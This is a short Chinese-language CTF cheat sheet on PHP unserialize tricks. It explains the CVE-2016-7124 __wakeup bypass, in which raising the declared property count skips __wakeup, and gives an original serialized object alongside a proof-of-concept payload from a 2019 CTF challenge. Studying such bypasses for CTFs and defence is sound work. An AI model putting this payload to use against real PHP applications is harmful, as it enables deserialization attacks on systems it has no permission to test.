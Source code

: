 # PHP Unserialize

## Tricks

### __wakeup 绕过

* PHP **CVE-2016-7124**：**当成员属性个数超过实际个数时，跳过`wakeup`**

* Example: *[极客大挑战 2019]PHP*

  ```php
  // Origin
  O:4:"Name":2:{s:14:" Name username";s:5:"admin";s:14:" Name password";i:100;}
  // PoC
  O:4:"Name":3:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
  ```

  